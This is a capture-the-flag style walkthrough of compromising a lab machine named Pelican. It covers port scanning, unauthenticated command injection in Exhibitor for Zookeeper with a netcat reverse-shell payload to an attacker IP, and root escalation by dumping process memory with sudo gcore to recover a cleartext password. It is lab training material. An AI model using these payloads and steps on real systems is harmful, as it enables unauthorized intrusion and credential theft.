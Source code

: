 _____

# Exploitation Guide for Pelican

We'll gain an initial foothold on this target through an unauthenticated command injection vulnerability. We'll then gain root access by leveraging `sudo` into a password disclosure.

## Enumeration

Let's begin with an `nmap` scan against all TCP ports.

```
kali@kali:~$ nmap 192.168.120.233 -p-

Host is up (0.021s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
44505/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 126.16 seconds
```

An `nmap -A` scan against the identified services reveals a few points of interest. Specifically, we identify an _Apache Zookeeper_ service running on port 2181, and a redirect from port 8081 pointing to an _Exhibitor for Zookeeper UI_ on port 8080.

```
PORT      STATE  SERVICE     VERSION
...
2181/tcp  open   zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
...
8081/tcp  open   http        nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.120.233:8080/exhibitor/v1/ui/index.html
...
```

After confirming the findings by browsing the applications, we search Google and discover [an unauthenticated command injection vulnerability](https://talosintelligence.com/vulnerability_reports/TALOS-2019-0790) in the Exhibitor UI.

## Exploitation

### Unauthenticated Command Injection in Exhibitor UI

According to the vulnerability disclosure, we can obtain an initial shell with a single `curl` command along with a **data.json** file which contains our payload. This payload should include a reverse shell command within the vulnerable `javaEnvironment` name value, and we must use the correct values for `serverId` and `serverSpec`, both of which we can obtain from the UI.

**data.json**:

```json
{ "zookeeperInstallDirectory": "/opt/zookeeper", "zookeeperDataDirectory": "/zookeeper/data", "zookeeperLogDirectory": "/opt/zookeeper/transactions", "logIndexDirectory": "/opt/zookeeper/transactions", "autoManageInstancesSettlingPeriodMs": "0", "autoManageInstancesFixedEnsembleSize": "0", "autoManageInstancesApplyAllAtOnce": "1", "observerThreshold": "0", "serversSpec": "1:pelican", "javaEnvironment": "$(/bin/nc -e /bin/sh 192.168.118.11 8080 &)", "log4jProperties": "", "clientPort": "2181", "connectPort": "2888", "electionPort": "3888", "checkMs": "30000", "cleanupPeriodMs": "300000", "cleanupMaxFiles": "20", "backupPeriodMs": "600000", "backupMaxStoreMs": "21600000", "autoManageInstances": "1", "zooCfgExtra": { "tickTime": "2000", "initLimit": "10", "syncLimit": "5", "quorumListenOnAllIPs": "true" }, "backupExtra": { "directory": "" }, "serverId": 2 }
```

Next, we'll launch a netcat listener on port `8080`.

```
kali@kali:~$ nc -nlvp 8080
listening on [any] 8080 ...
```

Once we've determined our data payload is correct, the following `curl` command should give us our initial shell:

```
kali@kali:~$ curl -X POST -d @data.json http://192.168.120.233:8080/exhibitor/v1/config/set
```

After several seconds, we catch our low privileged shell as `charles`.

```
kali@kali:~$ sudo nc -nlvp 8080
listening on [any] 8080 ...
connect to [192.168.118.11] from (UNKNOWN) [192.168.120.233] 36484
id
uid=1000(charles) gid=1000(charles) groups=1000(charles)

python -c 'import pty; pty.spawn("/bin/bash");'
```

## Escalation

We begin our escalation process with `sudo -l`, seeking programs that allow `sudo` as `root`. This reveals that our current user can run **/usr/bin/gcore** with sudo.

```
charles@pelican:/opt/zookeeper$ sudo -l

Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
...
```

Next, we'll hunt for processes that might be of interest with `ps auxwww` and subsequently identify an interesting **/usr/bin/password-store** process running as the `root` user:

```
...
root       492  0.0  0.0   2276    76 ?        Ss   18:53   0:00 /usr/bin/password-store
charles    526  0.6  5.6 2568196 116060 ?      Ssl  18:53   0:08 /usr/bin/java -jar /opt/exhibitor/exhibitor-1.0-jar-with-dependencies.jar -c file
...
```

Let's attempt to dump the `password-store` process memory to a core file by specifying its PID (`492` in this case) with the `gcore` command.

```
charles@pelican:/opt/zookeeper$ sudo /usr/bin/gcore 492
...
Saved corefile core.492
[Inferior 1 (process 492) detached]
```

Running `strings` against the generated core file, we discover cleartext credentials for the `root` user that were stored in the memory of the `password-store` process:

```
charles@pelican:/opt/zookeeper$ strings core.492

...
/usr/bin/passwor
////////////////
001 Password: root:
ClogKingpinInning731
x86_64
/usr/bin/password-store
```

Now, we can easily escalate to `root` with the `su root` command:

```
charles@pelican:/opt/zookeeper$ su root

Password:

root@pelican:/opt/zookeeper# id
id
uid=0(root) gid=0(root) groups=0(root)
```